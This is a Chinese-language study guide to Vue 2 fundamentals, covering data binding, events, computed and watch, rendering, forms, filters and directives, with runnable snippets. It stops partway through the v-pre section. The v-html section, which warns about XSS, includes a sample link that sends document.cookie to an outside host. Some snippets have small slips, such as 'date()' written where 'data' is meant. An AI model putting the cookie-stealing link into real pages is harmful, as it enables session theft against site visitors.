

# Vue

## 一、Vue 核心

### 1.1 Vue 简介

[Vue 2 文档 ](https://v2.cn.vuejs.org/v2/guide/)

[Vue 3 文档](https://cn.vuejs.org/guide/introduction.html) 

### 1.2 初识Vue

1. 想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；
2. root 容器里的代码依然符合html规范，只不过混入了一些特殊的 Vue 语法；
3. root 容器里的代码被称为【 Vue 模板】；
4. Vue实例和容器是一一对应的；
5. 真实开发中只有一个Vue实例，并且会配合着组件一起使用；
6. `{{xxx}}`中的`xxx`要写js表达式，且`xxx`可以自动读取到`data`中的所有属性；
7. 一旦`data`中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

> 注意区分：js表达式 和 js代码(语句)
>
> - 表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方： `a`、`a+b`、 `demo(1) `、`x === y ? 、'a' : 'b'`...
>
> - js代码(语句)：`if(){}`、`for(){}` ...


```html
<!-- 准备好一个容器 -->
<div id="demo">
    <h1>Hello, {{name.toLowerCase()}}, {{address}} --- {{Date.now()}}</h1>
</div>

<script>
    Vue.config.productionTip = false // 以阻止 vue 在启动时生成生产提示。

    // 创建Vue实例
    new Vue({
        // el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串
        el: '#demo',
        // data中用于存储数据，数据供el所指定的容器去使用，我们暂时先写成一个对象。
        data: {
            name: 'XDU',
            address: 'ShaanXi Xi\'an'
        }
    })
</script>
```


### 1.3 模板语法

Vue模板语法有2大类：

1. 插值语法：

功能：用于解析标签体内容。

写法：`{{xxx}}`，`xxx`是 js 表达式，且可以直接读取到`data`中的所有属性。

2. 指令语法：

功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。

举例：`v-bind:href="xxx"` 或  简写为 `:href="xxx"`，`xxx`同样要写 js 表达式，且可以直接读取到`data`中的所有属性。

备注：Vue 中有很多的指令，且形式都是：`v-????`，此处我们只是拿`v-bind`举个例子。

```html
<!-- 准备好一个容器-->
<div id="root">
    <h1>插值语法</h1>
    <h3>你好，{{name}}</h3>
    <hr>
    <h1>指令语法</h1>
    <a v-bind:href="school.url" target="_blank">点我{{school.name}}去学习1</a>
    <a :href="school.url" target="_blank">点我{{school.name}}去学习2</a>
</div>
<script>

    new Vue({
        el: '#root',
        data: {
            name: 'jack',
            school: {
                name: 'XDU',
                url: 'https://www.xidian.edu.cn/'
            }
        }
    })
</script>
```

### 1.4 数据绑定

Vue中有2种数据绑定的方式：

1. 单向绑定 `v-bind`：数据只能从`data`流向页面。

2. 双向绑定 `v-model`：数据不仅能从``data`流向页面，还可以从页面流向data。

   > 备注：
   >
   > 双向绑定一般都应用在表单类元素上（如：input、select等）
   >
   > `v-model:value` 可以简写为 `v-model`，因为`v-model`默认收集的就是value值。

```html
<!-- 准备好一个容器-->
<div id="root">

    <!-- 普通写法 -->
    单向数据绑定：<input type="text" v-bind:value="name"><br>
    双向数据绑定：<input type="text" v-model:value="name"><br>

    <!-- 简写 -->
    单向数据绑定：<input type="text" :value="name"><br>
    双向数据绑定：<input type="text" v-model="name"><br>

    <!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
    <!-- <h2 v-model:x="name">你好啊</h2> -->
</div>
<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU'
        }
    })
</script>
```

#### data与el的2种写法

1. el有2种写法

   （1）`new Vue`时候配置`el`属性。

   （2）先创建Vue实例，随后再通过`vm.$mount('#root')`指定`el`的值。

2. data有2种写法

   （1）对象式

   （2）函数式

3. 如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。

4. 一个重要的原则：

   由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。

```html
<!-- 准备好一个容器-->
<div id="root">
    <h1>你好，{{name}}</h1>
</div>

<script>
    const v = new Vue({
        // el的两种写法
        // el: '#root',

        // data的两种写法
        /*data: {
            name: 'XDU'
        }*/

        date() {    // 一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了
            console.log('@@@',this) //此处的this是Vue实例对象
            return{
                name:'尚硅谷'
            }
        }
    })

    setTimeout(() => {
        // el的两种写法
        v.$mount('#root')
    }, 1000)
</script>
```

```MVVM模型
MVVM模型
         1. M：模型(Model) ：data中的数据
         2. V：视图(View) ：模板代码
         3. VM：视图模型(ViewModel)：Vue实例
观察发现：
         1.data中所有的属性，最后都出现在了vm身上。
         2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。
```

### 1.5 MVVM模型

- M：模型(Model) ：data中的数据
- V：视图(View) ：模板代码
- VM：视图模型(ViewModel)：Vue实例


观察发现：

1. data中所有的属性，最后都出现在了vm身上。
2. vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

M：

```javascript
el: '#root',
        data: {
            name: 'XDU',
            address: 'Xi\'an',
        }
```

V：

```html
<div id="root">
    <h1>学校名称：{{name}}</h1>
    <h1>学校地址：{{address}}</h1>
</div>
```

VM

```javascript
const vm = new Vue({})
```

#### 数据代理

通过一个对象代理对另一个对象中属性的操作（读/写）

```html
<script>
    let obj = {x: 100}
    let obj2 = {y: 200}

    Object.defineProperty(obj2, 'x', {
        get() {
            return obj.x
        },
        set(value) {
            obj.x = value
        }
    })
</script>
```

1. Vue中的数据代理：通过vm对象来代理data对象中属性的操作（读/写）
2. Vue中数据代理的好处：更加方便的操作data中的数据
3. 基本原理：
   - 通过`Object.defineProperty()`把`data`对象中所有属性添加到vm上。
   - 为每一个添加到vm上的属性，都指定一个`getter/setter`。
   - 在`getter/setter`内部去操作（读/写）data中对应的属性。

### 1.6 事件处理

#### 事件的基本使用

1. 使用`v-on:xxx` 或 `@xxx` 绑定事件，其中`xxx`是事件名；
2. 事件的回调需要配置在`methods`对象中，最终会在`vm`上；
3. `methods`中配置的函数，不要用箭头函数！否则`this`就不是`vm`了；
4. `methods`中配置的函数，都是被Vue所管理的函数，`this`的指向是`vm` 或 组件实例对象；
5. `@click="demo"` 和 `@click="demo($event)"` 效果一致，但后者可以传参；

```html
<!-- 准备好一个容器 -->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <button v-on:click="showInfo1">点我提示信息1（不传参）</button>
    <button @click="showInfo2($event, 66)">点我提示信息2（传参）</button>

</div>

<script>
    const vm = new Vue({
        el:'#root',
        data:{
            name:'XDU',
        },
        methods: {
            showInfo1(event) {
                // console.log(event.target.innerText)
                // console.log(this) //此处的this是vm
                alert('同学你好！')
            },
            showInfo2(event, number) {
                console.log(number)
                console.log(event.target.innerText)
                // console.log(this) //此处的this是vm
                alert('同学你好！!')
            }

        }
    });
```

#### 事件修饰符

`prevent`：阻止默认事件（常用）；

`stop`：阻止事件冒泡（常用）；

`once`：事件只触发一次（常用）；

`capture`：使用事件的捕获模式；

`self`：只有event.target是当前操作的元素时才触发事件；

`passive`：事件的默认行为立即执行，无需等待事件回调执行完毕；

```html
<!-- 准备好一个容器 -->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <!-- 阻止默认事件（常用） -->
    <a href="https://www.xidian.edu.cn/" @click.prevent="showInfo">点我提示信息</a>
    <!-- 阻止事件冒泡（常用） -->
    <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息</button>
         <!-- 修饰符可以连续写 -->
        <a href="https://www.xidian.edu.cn/" @click.stop.prevent="showInfo">点我提示信息</a>
    </div>

    <!-- 事件只触发一次（常用） -->
    <button @click.once="showInfo">点我提示信息</button>

    <!-- 使用事件的捕获模式 -->
    <div class="box1" @click.capture="showMsg(1)">
        box1
        <div class="box2" @click="showMsg(2)">box2</div>
    </div>

    <!-- 只有event.target是当前操作的元素时才触发事件； -->
    <div class="demo1" @click.self="showInfo">
        <button @click="showInfo">点我提示信息</button>
    </div>

    <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
    <ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
    </ul>

</div>

<script>
    new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
        },
        methods: {
            showInfo (e) {
                alert('同学你好！')
                console.log(event.target)
            },
            showMsg (msg) {
                console.log(msg)
            },
            demo () {
                for (let i = 0; i < 1000; i++) {
                    console.log('#')
                }
                console.log('累坏了')
            },
        },
    })
</script>
```


#### 键盘事件

1. Vue中常用的按键别名：

  - 回车 => `enter`
  - 删除 => `delete` （捕获“删除”和“退格”键）
  - 退出 => `esc`
  - 空格 => `space`
  - 换行 => `tab` （特殊，必须配合keydown去使用）
  - 上 => `up`
  - 下 => `down`
  - 左 =>`left`
  - 右 => `right`

2. Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为`kebab-case`（短横线命名）

3. 系统修饰键（用法特殊）：`ctrl`、`alt`、`shift`、`meta`

   - 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。

   - 配合keydown使用：正常触发事件。

4. 也可以使用keyCode去指定具体的按键（不推荐）

5. `Vue.config.keyCodes.自定义键名` = 键码，可以去定制按键别名

```html
<!-- 准备好一个容器 -->
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
</div>

<script>
    Vue.config.keyCode.huiche = 13  //定义了一个别名按键
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
        },
        methods: {
            showInfo (e) {
                // if (e.keyCode !== 13) return
                console.log(e.target.value)
            },
        },
    })
</script>
```

### 1.7 计算属性与监视

#### 计算属性 computed

1. 定义：要用的属性不存在，要通过已有属性计算得来。

2. 原理：底层借助了`Objcet.defineproperty`方法提供的`getter`和`setter`。

3. `get`函数什么时候执行？
   - 初次读取时会执行一次。
   - 当依赖的数据发生改变时会被再次调用。

4. 优势：与`methods`实现相比，内部有缓存机制（复用），效率更高，调试方便。

5. 备注：
   - 计算属性最终会出现在`vm`上，直接读取使用即可。
   - 如果计算属性要被修改，那必须写`set`函数去响应修改，且set中要引起计算时依赖的数据发生改变。

```html
<!-- 准备好一个容器 -->
<div id="root">
    姓：<input type="text" v-model="firstName"><br><br>
    名：<input type="text" v-model="lastName"><br><br>
    全名：<span>{{fullName}}</span>
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        computed: {
            fullName: {
                // get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                // get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
                get() {
                    console.log('get被调用了')
                    // 此处的this是vm
                    return this.firstName + '-' + this.lastName
                },

                // set什么时候调用? 当fullName被修改时。
                set(value) {
                    console.log('set',value)
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            }
        }
    })
</script>
```

- 简写（只读不写）

```javascript
computed: {
    fullName () {
        console.log('get被调用了')
        return this.firstName + '-' + this.lastName
    },

},
```

#### 监视属性 watch

1. 当被监视的属性变化时, 回调函数自动调用, 进行相关操作
2. 监视的属性必须存在，才能进行监视！！
3. 监视的两种写法：
   - `new Vue`时传入`watch`配置
   - 通过`vm.$watch`监视

```html
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
    <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
    <!--<button @click="isHot != isHot">切换天气</button>-->
</div>

<script>
    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info () {
                return this.isHot ? '炎热' : '凉爽'
            },
        },
        methods: {
            changeWeather () {
                this.isHot = !this.isHot
            },
        },
        watch: {
            isHot: {
                // 初始化时让handler调用一下
                immediate:true,
                // handler什么时候调用？当isHot发生改变时。
                handler(newValue, oldValue) {
                    console.log("isHot Changed!", newValue, oldValue)
                }
            }
        }

    })
```

```javascript
vm.$watch('isHot', {
    // 初始化时让handler调用一下
    immediate: true,
    // handler什么时候调用？当isHot发生改变时。
    handler (newValue, oldValue) {
        console.log("isHot Changed!", newValue, oldValue)
    }
})
```

- 深度监视：

（1）Vue中的`watch`默认不监测对象内部值的改变（一层）。

（2）配置`deep:true`可以监测对象内部值改变（多层）。

备注：

（1）Vue自身可以监测对象内部值的改变，但Vue提供的`watch`默认不可以！

（2）使用`watch`时根据数据的具体结构，决定是否采用深度监视。


监视多级结构中某个属性的变化：

```html
<script>
    const vm = new Vue({
        el: '#root',
        data: {
            numbers: {
                a: 1,
                b: 1
            }
        },
        watch: {
            // 监视多级结构中某个属性的变化
            'numbers.a': {
                handler (newValue, oldValue) {
                    console.log('numbers改变了')
                }
            },

        }

    })
</script>
```

监视多级结构中所有属性的变化：

```javascript
numbers: {
    deep: true,
    handler (newValue, oldValue) {
        console.log()
    }
}
```


- 简写（仅需要`handler`方法时）：

```javascript
watch: {
    
    // 简写
    isHot (newValue, oldValue) {
        console.log('isHot Changed!', newValue, oldValue)
    },

},
```

```javascript
// 简写
vm.$watch('isHot', function (newValue, oldValue) {
    console.log("isHot Changed!", newValue, oldValue)
})
```


#### computed和watch之间的区别：

1. `computed`能完成的功能，`watch`都可以完成。
2. `watch`能完成的功能，`computed`不一定能完成，例如：`watch`可以进行异步操作。

两个重要的小原则：

- 所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例对象。
- 所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），最好写成箭头函数，这样`this`的指向才是`vm`或 组件实例对象。

### 1.8 class与style绑定

1. class样式

写法`:class="xxx"`   xxx可以是字符串、对象、数组。

​	字符串写法适用于：类名不确定，要动态获取。

- 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
- 数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

2. style样式

`:style="{fontSize: xxx}"`其中xxx是动态值。

`:style="[a,b]"`其中a、b是样式对象。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>绑定样式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        .basic{
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy{
            border: 4px solid red;;
            background: rgba(255, 255, 0, 0.644) linear-gradient(30deg, yellow, pink, orange, yellow);
        }
        .sad{
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }
        .normal{
            background-color: skyblue;
        }

        .style1{
            background-color: yellowgreen;
        }
        .style2{
            font-size: 30px;
            text-shadow:2px 2px 10px red;
        }
        .style3{
            border-radius: 20px;
        }
    </style>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div><br><br>
    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div><br><br>
    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div>

    <!-- 绑定style样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div> <br/><br/>
    <!-- 绑定style样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
            mood: 'normal',
            classArr: ['style1', 'style2', 'style3'],
            classObj: {
                style1: false,
                style2: false,
            },
            styleObj: {
                fontsize: '40px',
                color: 'red',
            },
            styleObj2: {
                backgroundColor: 'orange',
            },
            styleArr:[
                {
                    fontSize: '40px',
                    color:'blue',
                },
                {
                    backgroundColor:'gray'
                }
            ]
        },
        methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 3)
                this.mood = arr[index]
            }
        }
    })
</script>

</body>
</html>
```

### 1.9 条件渲染

1. `v-if`

写法：

（1）`v-if="表达式"`

（2）`v-else-if="表达式"`

（3）`v-else="表达式"`

适用于：切换频率较低的场景。

特点：不展示的DOM元素直接被移除。

注意：`v-if`可以和：`v-else-if`、`v-else`一起使用，但要求结构不能被“打断”。

2. `v-show`

写法：v-show="表达式"

适用于：切换频率较高的场景。

特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉

3. 备注：使用`v-if`的时，元素可能无法获取到，而使用`v-show`一定可以获取到。

```html
<!-- 准备好一个容器-->
<div id="root">

    <!-- 使用v-show做条件渲染 -->
    <h2 v-show="true">欢迎来到{{name}}</h2>
    <h2 v-show="1 === 1">欢迎来到{{name}}</h2>

    <!-- 使用v-if做条件渲染 -->
    <h2 v-if="false">欢迎来到{{name}}</h2>
    <h2 v-if="1 === 1">欢迎来到{{name}}</h2>

    <h2>当前事的n值是：{{n}}</h2>
    <button @click="n++">点我 n+1 </button>
    <!-- v-else和v-else-if -->
    <div v-if="n === 1">Angular</div>
    <div v-else-if="n === 2">React</div>
    <div v-else-if="n === 3">Vue</div>
    <div v-else>haha</div>

    <!-- v-if与template的配合使用 -->
    <template v-if="n === 1">
        <h2>Hello</h2>
        <h2>XDU</h2>
        <h2>Xi'an</h2>
    </template>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
            n: 0,

        }
    })
</script>
```

### 1.10 列表渲染

#### 基本列表：v-for

`v-for`指令：用于展示列表数据

- 语法：`v-for="(item, index) in xxx" :key="yyy"`

- 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```html
<!-- 准备好一个容器-->
<div id="root">
    <!-- 遍历数组 -->
    <h2>人员列表（遍历数组）</h2>
    <ul>
        <li v-for="(p, index) of persons" :key="index">
            {{p.name}}--{{p.age}}
        </li>
    </ul>

    <!-- 遍历对象 -->
    <h2>汽车信息（遍历对象）</h2>
    <ul>
        <li v-for="(value, k) of car" :key="k">
            {{k}}--{{value}}
        </li>
    </ul>

    <!-- 遍历字符串 -->
    <h2>测试遍历字符串（用得少）</h2>
    <ul>
        <li v-for="(char, index) of str" :key="index">
            {{char}}--{{index}}
        </li>
    </ul>

    <!-- 遍历指定次数 -->
    <h2>测试遍历指定次数（用得少）</h2>
    <ul>
        <li v-for="(number, index) of 5" :key="index">
            {{index}}--{{number}}
        </li>
    </ul>

</div>

<script>
    new Vue({
        el: '#root',
        data: {
            persons:[
                {id:'001',name:'张三',age:18},
                {id:'002',name:'李四',age:19},
                {id:'003',name:'王五',age:20}
            ],
            car: {
                name:'奥迪A8',
                price:'70万',
                color:'黑色'
            },
            str:'hello'
        }
    })
</script>
```

#### key 的原理

> 面试题：react、vue中的key有什么作用？（key的内部原理）

1. 虚拟DOM中key的作用：

   key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】, 随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：

   （1）旧虚拟DOM中找到了与新虚拟DOM相同的key：

   - 若虚拟DOM中内容没变, 直接使用之前的真实DOM！

   - 若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM

   （2）旧虚拟DOM中未找到与新虚拟DOM相同的key

   - 创建新的真实DOM，随后渲染到到页面。				

2. 用index作为key可能会引发的问题：

   （1）若对数据进行：逆序添加、逆序删除等破坏顺序操作：会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低

   （2）如果结构中还包含输入类的DOM：会产生错误DOM更新 ==> 界面有问题

3. 开发中如何选择key?

   （1）最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。

   （2）如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

#### Vue监视数据的原理

1. vue会监视data中所有层次的数据。

2. 如何监测对象中的数据?

通过setter实现监视，且要在new Vue时就传入要监测的数据。

（1）对象中后追加的属性，Vue默认不做响应式处理

（2）如需给后添加的属性做响应式，请使用如下API：

  - `Vue.set(target，propertyName/index，value) `

  - `vm.$set(target，propertyName/index，value)`

3. 如何监测数组中的数据？

通过包裹数组更新元素的方法实现，本质就是做了两件事：

（1）调用原生对应的方法对数组进行更新。

（2）重新解析模板，进而更新页面。

4. 在Vue修改数组中的某个元素一定要用如下方法：

（1）使用这些API：`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`

（2）`Vue.set()` 或 `vm.$set()`

  > 特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！

```html
<!-- 准备好一个容器-->
<div id="root">
    <h1>学生信息</h1>

    <button @click="student.age++">年龄+1岁</button><br>
    <button @click="addSex">添加性别属性，默认值：男</button> <br/>
    <button @click="student.sex = '未知'">修改性别</button><br>
    <button @click="addFriend">在列表首位添加一个朋友</button> <br/>
    <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
    <button @click="addHobby">添加一个爱好</button> <br/>
    <button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
    <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>

    <h3>姓名：{{student.name}}</h3>
    <h3>年龄：{{student.age}}</h3>
    <h3 v-if="student.sex">性别：{{student.sex}}</h3>
    <h3>爱好：</h3>
    <ul>
        <li v-for="(h,index) in student.hobby" :key="index">
            {{h}}
        </li>
    </ul>
    <h3>朋友们：</h3>
    <ul>
        <li v-for="(f,index) in student.friends" :key="index">
            {{f.name}}--{{f.age}}
        </li>
    </ul>

</div>


<script>
    const vm = new Vue({
        el: '#root',
        data: {
            student: {
                name: 'tom',
                age: 18,
                hobby: ['抽烟', '喝酒', '烫头'],
                friends: [
                    { name: 'jerry', age: 35 },
                    { name: 'tony', age: 36 }
                ]
            }
        },
        methods: {
            addSex() {
                // Vue.set(this.student, 'sex', '男')
                this.$set(this.student, 'sex', '男')
            },
            addFriend() {
                this.student.friends.unshift({name:'jack',age:70})
            },
            updateFirstFriendName() {
                this.student.friends[0].name = '张三'
            },
            addHobby() {
                this.student.hobby.push('学习')
            },
            updateHobby() {
                // this.student.hobby.splice(0, 1, '开车')
                // Vue.set(this.student.hobby, 0, '开车')
                this.$set(this.student.hobby, 0, '开车')
            },
            removeSmoke() {
                this.student.hobby = this.student.hobby.filter((h) => {
                    return h !== '抽烟'
                })
            }
        }
    })
</script>
```

### 1.11 收集表单数据

- 若：`<input type="text"/>`，则`v-model`收集的是`value`值，用户输入的就是`value`值。

- 若：`<input type="radio"/>`，则`v-model`收集的是`value`值，且要给标签配置`value`值。

- 若：`<input type="checkbox"/>`

  - 没有配置`input`的`value`属性，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）	

  - 配置`input`的`value`属性:

​		（1）`v-model`的初始值是非数组，那么收集的就是`checked`（勾选 or 未勾选，是布尔值）

​		（2）`v-model`的初始值是数组，那么收集的的就是`value`组成的数组

- 备注：`v-model`的三个修饰符：

  - `lazy`：失去焦点再收集数据

  - `number`：输入字符串转为有效的数字

  - `trim`：输入首尾空格过滤

```html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model.trim="userInfo.account"><br><br>
        密码：<input type="password" v-model="userInfo.password"><br><br>
        年龄：<input type="number" v-model.number="userInfo.age"><br><br>
        性别：
        男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
        女<input type="radio" name="sex" v-model="userInfo.sex" value="female"><br><br>
        爱好：
        学习<input type="checkbox" v-model="userInfo.hobby" value="study">
        打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
        吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat"><br><br>
        所属校区
        <select v-model="userInfo.city">
            <option>请选择校区</option>
            <option value="XAY">北校区</option>
            <option value="XAC">南校区</option>
            <option value="GZ">广研院</option>
        </select><br/><br/>
        其他信息：
        <textarea v-model.lazy="userInfo.other"></textarea><br/><br/>
        <input type="checkbox" v-model="userInfo.agree"></input>
        阅读并接受<a href="https://www.xidian.edu.cn">
        《用户协议》</a>
        <button>提交</button>
    </form>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
            userInfo: {
                account: '',
                password: '',
                age: 18,
                sex: 'female',
                hobby: [],
                city: 'XAY',
                other: '',
                agree: ''
            }

        },
        methods: {
            demo() {
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>
```

### 1.12 过滤器

定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。

语法：

1. 注册过滤器：`Vue.filter(name,callback)` 或 `new Vue{filters:{}}`
2. 使用过滤器：`{{ xxx | 过滤器名}}`  或  `v-bind:属性 = "xxx | 过滤器名"`

备注：

1. 过滤器也可以接收额外参数、多个过滤器也可以串联
2. 并没有改变原本的数据, 是产生新的对应的数据

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2>显示格式化后的时间</h2>
    <!-- 计算属性实现 -->
    <h3>现在是：{{fmtTime}}</h3>
    <!-- methods实现 -->
    <h3>现在是：{{getFmtTime()}}</h3>
    <!-- 过滤器实现 -->
    <h3>现在是：{{time | timeFormater}}</h3>
    <!-- 过滤器实现（传参） -->
    <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
    <h3 :x="msg | mySlice">尚硅谷</h3>
</div>

<div id="root2">
    <h2>{{msg | mySlice}}</h2>
</div>

<script>
    // 全局过滤器
    Vue.filter('mySlice', function (value) {
        return value.slice(0, 4)
    })

    new Vue({
        el: '#root',
        data: {
            time: Date.now(),
            msg: '你好，XDU'
        },
        computed: {
            fmtTime() {
                return dayjs().format(`YYYY-MM-DD HH:mm:ss`)
            }
        },
        methods: {
            getFmtTime() {
                return dayjs().format(`YYYY-MM-DD HH:mm:ss`)
            }
        },
        // 局部过滤器
        filters: {
            timeFormater(value, str = `YYYY-MM-DD HH:mm:ss`) {
                return dayjs(value).format(str)
            },
        }
    })

    new Vue({
        el:'#root2',
        data:{
            msg:'hello,XDU!'
        }
    })
</script>
```

### 1.13 内置指令与自定义指令

#### 内置指令

- 我们学过的指令：

`v-bind`：单向绑定解析表达式, 可简写为 :xxx

`v-model`：双向数据绑定

`v-for`：遍历数组/对象/字符串

`v-on `：绑定事件监听, 可简写为`@`

`v-if`：条件渲染（动态控制节点是否存存在）

`v-else`：条件渲染（动态控制节点是否存存在）

`v-show`：条件渲染 (动态控制节点是否展示)

------

`v-text`指令：

1. 作用：向其所在的节点中渲染文本内容。

2. 与插值语法的区别：v-text会替换掉节点中的内容，`{{xx}}`则不会

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
			name: 'XDU',
            str: 'hello!'
        }
    })
</script>
```

`v-html`指令：

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

​	（1）`v-html`会替换掉节点中所有的内容，`{{xx}}`则不会。

​	（2）`v-html`可以识别html结构。

3. 严重注意：`v-html`有安全性问题！！！！

​	（1）在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​	（2）一定要在可信的内容上使用`v-html`，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>


<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
            str: '<h3>hello</h3>',
            str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
        },
    })
```

`v-cloak`指令（没有值）：

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉`v-cloak`属性。

2. 使用css配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题。

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:5005/resource/5s/vue.js"></script>

<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
        },
    })
</script>
```

`v-once指令`：

1. `v-once`所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能。

```html
<div id="root">
    <h2 v-once>初始化的n值是:{{n}}</h2>
    <h2>当前的n值是:{{n}}</h2>
    <button @click="n++">点我n+1</button>
</div>

<script>
    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```

`v-pre`指令：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<!-- 准备好一个容器-->
<div id="root">
